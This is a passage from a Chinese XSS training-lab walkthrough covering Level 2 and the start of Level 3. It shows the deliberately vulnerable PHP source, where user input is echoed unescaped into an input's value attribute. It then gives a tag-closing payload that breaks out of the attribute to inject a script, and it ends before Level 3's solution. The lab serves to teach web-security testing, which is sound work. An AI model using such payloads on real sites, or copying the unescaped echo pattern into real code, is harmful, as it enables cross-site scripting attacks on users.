 ```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
</form>
</center>';
?>
<center><img src=level2.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

```scss
htmlspecialchars($str)  将字符串中的特殊字符转换为HTML实体
```

#注入过程

php代码部分对应网页部分。

[![](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131500342.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131500342.png)

可以看到`<script>alert(1)</script>`被嵌套到value属性中，所以我们需要闭合input标签。

payload：

```xml
"><script>alert(1)</script>
```

##### Level3

#源码

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level4.php?keyword=try harder!"; 
}
</script>
<title>欢迎来到level3</title>
</head>
<body>
<h1 align=center>欢迎来到level3</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>	
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
<center><img src=level3.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```